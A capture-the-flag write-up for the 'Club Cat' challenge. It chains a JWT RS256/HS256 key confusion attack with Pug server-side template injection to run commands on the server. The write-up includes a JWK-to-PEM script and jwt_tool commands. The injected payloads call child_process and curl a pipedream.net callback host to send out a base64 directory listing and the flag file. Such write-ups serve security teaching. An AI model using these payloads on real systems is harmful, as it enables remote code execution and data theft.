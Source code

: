   **Key Confusion Attack with JWT and Pug SSTI**
---
## **Description**
People are always complaining that there's not enough cat pictures on the internet.. Something must be done!!
<br></br>
---
1. Identifying the Attack Surface
While reading through the source code, I discovered that the RS256 JWT keys were publicly accessible via the /jwks.json route. 
<img src="https://github.com/Yazan03/CTF-Writeups2024/blob/main/1337UP%20CTF/Club%20Cat/images/Capture.PNG">
<br></br>
This gives us the ability to perform a key confusion attack, as described here
<br></br>
https://portswigger.net/web-security/jwt/algorithm-confusion

Further investigation revealed a route called /cats, which processes a Pug SSTI (Server-Side Template Injection) vulnerability in the username parameter. This username is directly extracted from the JWT token.
<br></br>
<img src="https://github.com/Yazan03/CTF-Writeups2024/blob/main/1337UP%20CTF/Club%20Cat/images/2.PNG">
<br></br>
https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#pugjs-nodejs 
<br></br>
2. Attack Strategy
Based on the information, the attack surface could be summarized as follows:

Retrieve the RS256 keys from the /jwks.json endpoint.
Perform a key confusion attack to inject a payload into the username.
Exploit the Pug SSTI vulnerability.
Gain Remote Code Execution (RCE) and read the flag.
<br></br>

3. Exploiting RS256 Key Confusion
To proceed, I used a script to convert the RS256 key into a .pem file, which could be used with jwt_tool. This allowed me to manipulate the JWT token.
```py
import base64
from cryptography.hazmat.primitives.asymmetric import rsa
from cryptography.hazmat.primitives import serialization
from cryptography.hazmat.primitives.asymmetric.rsa import RSAPublicNumbers


jwk = {
    "kty": "RSA",
    "n": "w4oPEx-448XQWH_OtSWN8L0NUDU-rv1jMiL0s4clcuyVYvgpSV7FsvAG65EnEhXaYpYeMf1GMmUxBcyQOpathL1zf3_Jk5IsbhEmuUZ28Ccd8l2gOcURVFA3j4qMt34OlPqzf9nXBvljntTuZcQzYcGEtM7Sd9sSmg8uVx8f1WOmUFCaqtC26HdjBMnNfhnLKY9iPxFPGcE8qa8SsrnRfT5HJjSRu_JmGlYCrFSof5p_E0WPyCUbAV5rfgTm2CewF7vIP1neI5jwlcm22X2t8opUrLbrJYoWFeYZOY_Wr9vZb23xmmgo98OAc5icsvzqYODQLCxw4h9IxGEmMZ-Hdw",
    "e": "AQAB"
}


n = int.from_bytes(base64.urlsafe_b64decode(jwk["n"] + "=="), byteorder='big')
e = int.from_bytes(base64.urlsafe_b64decode(jwk["e"] + "=="), byteorder='big')


public_numbers = RSAPublicNumbers(e, n)
public_key = public_numbers.public_key()


pem = public_key.public_bytes(
    encoding=serialization.Encoding.PEM,
    format=serialization.PublicFormat.SubjectPublicKeyInfo
)

# Save to a .pem file
with open("public_key.pem", "wb") as pem_file:
    pem_file.write(pem)

print("Public RSA key saved to public_key.pem")
```
<br></br>
```text
-----BEGIN PUBLIC KEY-----
MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAw4oPEx+448XQWH/OtSWN
8L0NUDU+rv1jMiL0s4clcuyVYvgpSV7FsvAG65EnEhXaYpYeMf1GMmUxBcyQOpat
hL1zf3/Jk5IsbhEmuUZ28Ccd8l2gOcURVFA3j4qMt34OlPqzf9nXBvljntTuZcQz
YcGEtM7Sd9sSmg8uVx8f1WOmUFCaqtC26HdjBMnNfhnLKY9iPxFPGcE8qa8SsrnR
fT5HJjSRu/JmGlYCrFSof5p/E0WPyCUbAV5rfgTm2CewF7vIP1neI5jwlcm22X2t
8opUrLbrJYoWFeYZOY/Wr9vZb23xmmgo98OAc5icsvzqYODQLCxw4h9IxGEmMZ+H
dwIDAQAB
-----END PUBLIC KEY-----
```
<br></br>

4. JWT Token Manipulation
Next, I created an account and captured the JWT token. Afterward, I used jwt_tool to craft a custom token that exploited the SSTI vulnerability by injecting arbitrary code into the username field.
<img src="https://github.com/Yazan03/CTF-Writeups2024/blob/main/1337UP%20CTF/Club%20Cat/images/3.PNG">
<img src="https://github.com/Yazan03/CTF-Writeups2024/blob/main/1337UP%20CTF/Club%20Cat/images/4.PNG">

<br></br>
And then use jwt_tool
```sh
$ python3 jwt_tool.py eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.eyJ1c2VybmFtZSI6ImFzZCJ9.WtNj-PzZesPRM7CZqAXXauI3TV6DcliuJbVzFOaqWajtLk96VzBjMTxap5hT9d09xraiu2CgCoX1dEg8ACpyPWfmOmxgLdwZvnL1qjjhv3ErwakYSJsn-Fe8WGeqDu4ZeSxjwR7xFjQXSBlvG9WytuWlpNBG6jM_6tY12euNs2oUW8VMV2HJM_GOEfwOMrb8lsV5JChgE3Eea9Uqa-DSpNkBvOlgWXo1gjgmlFP6TWDvxLA24O986jwFlBibxvVOOlsYhXuqiZUI-ynSxT8ZdivLYgOG58oxtvvbFuiXYc9fnSXC97eMnx_kXVE1RrYzQD_ZPC3o4CaqFK465_RK2g -X k -pk ~/Downloads/web/app/public_key.pem -I -pc username -pv "#{7*7}"

eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6IiN7Nyo3fSJ9.lsLiuUrEkr81Z73IyAJmF7gTJfp9WwqErjPlr9e9UvI
```
<br></br>
<img src="https://github.com/Yazan03/CTF-Writeups2024/blob/main/1337UP%20CTF/Club%20Cat/images/6.PNG">
<br></br>
It worked!, now let's see where the flag is, From the Dockerfile we can see that the flag is randomized and it's in the root directory.
<br></br>
<img src="https://github.com/Yazan03/CTF-Writeups2024/blob/main/1337UP%20CTF/Club%20Cat/images/7.PNG">
<br></br>
```sh
─$ python3 jwt_tool.py eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.eyJ1c2VybmFtZSI6ImFzZCJ9.WtNj-PzZesPRM7CZqAXXauI3TV6DcliuJbVzFOaqWajtLk96VzBjMTxap5hT9d09xraiu2CgCoX1dEg8ACpyPWfmOmxgLdwZvnL1qjjhv3ErwakYSJsn-Fe8WGeqDu4ZeSxjwR7xFjQXSBlvG9WytuWlpNBG6jM_6tY12euNs2oUW8VMV2HJM_GOEfwOMrb8lsV5JChgE3Eea9Uqa-DSpNkBvOlgWXo1gjgmlFP6TWDvxLA24O986jwFlBibxvVOOlsYhXuqiZUI-ynSxT8ZdivLYgOG58oxtvvbFuiXYc9fnSXC97eMnx_kXVE1RrYzQD_ZPC3o4CaqFK465_RK2g -X k -pk ~/Downloads/web/app/public_key.pem -I -pc username -pv "#{function(){localLoad=global.process.mainModule.constructor._load;sh=localLoad(\"child_process\").exec('curl https://eogce8tgujfgk5f.m.pipedream.net?=\`ls /|base64\`')}()}"


[+] eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6IiN7ZnVuY3Rpb24oKXtsb2NhbExvYWQ9Z2xvYmFsLnByb2Nlc3MubWFpbk1vZHVsZS5jb25zdHJ1Y3Rvci5fbG9hZDtzaD1sb2NhbExvYWQoXCJjaGlsZF9wcm9jZXNzXCIpLmV4ZWMoJ2N1cmwgaHR0cHM6Ly9lb2djZTh0Z3VqZmdrNWYubS5waXBlZHJlYW0ubmV0Pz1gbHMgL3xiYXNlNjRgJyl9KCl9In0.PxWfN3-n3u4IxcWorBADNw52W-NFJ491nrf5ATz9WNs 
```
And we got a callback
<br></br>
<img src="https://github.com/Yazan03/CTF-Writeups2024/blob/main/1337UP%20CTF/Club%20Cat/images/8.PNG">
<br></br>
Then we got the flag file name: 
<br></br>
<img src="https://github.com/Yazan03/CTF-Writeups2024/blob/main/1337UP%20CTF/Club%20Cat/images/9.PNG">
<br></br>

5. Getting the Flag

```sh
$ python3 jwt_tool.py eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.eyJ1c2VybmFtZSI6ImFzZCJ9.WtNj-PzZesPRM7CZqAXXauI3TV6DcliuJbVzFOaqWajtLk96VzBjMTxap5hT9d09xraiu2CgCoX1dEg8ACpyPWfmOmxgLdwZvnL1qjjhv3ErwakYSJsn-Fe8WGeqDu4ZeSxjwR7xFjQXSBlvG9WytuWlpNBG6jM_6tY12euNs2oUW8VMV2HJM_GOEfwOMrb8lsV5JChgE3Eea9Uqa-DSpNkBvOlgWXo1gjgmlFP6TWDvxLA24O986jwFlBibxvVOOlsYhXuqiZUI-ynSxT8ZdivLYgOG58oxtvvbFuiXYc9fnSXC97eMnx_kXVE1RrYzQD_ZPC3o4CaqFK465_RK2g -X k -pk ~/Downloads/web/app/public_key.pem -I -pc username -pv "#{function(){localLoad=global.process.mainModule.constructor._load;sh=localLoad(\"child_process\").exec('curl https://eogce8tgujfgk5f.m.pipedream.net?=\`ls /flag_Gx4wVbEc1fxN9ztM.txt|base64\`')}()}"


[+] eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6IiN7ZnVuY3Rpb24oKXtsb2NhbExvYWQ9Z2xvYmFsLnByb2Nlc3MubWFpbk1vZHVsZS5jb25zdHJ1Y3Rvci5fbG9hZDtzaD1sb2NhbExvYWQoXCJjaGlsZF9wcm9jZXNzXCIpLmV4ZWMoJ2N1cmwgaHR0cHM6Ly9lb2djZTh0Z3VqZmdrNWYubS5waXBlZHJlYW0ubmV0Pz1gbHMgL2ZsYWdfR3g0d1ZiRWMxZnhOOXp0TS50eHR8YmFzZTY0YCcpfSgpfSJ9.1IMzf-EtCtP7W_oeblc7njtLt6aeSNy5DqxJgeX1KZY 
```
<br></br>
<img src="https://github.com/Yazan03/CTF-Writeups2024/blob/main/1337UP%20CTF/Club%20Cat/images/10.PNG">
<br></br>
```
INTIGRITI{h3y_y0u_c4n7_ch41n_7h053_vuln5_l1k3_7h47}
```
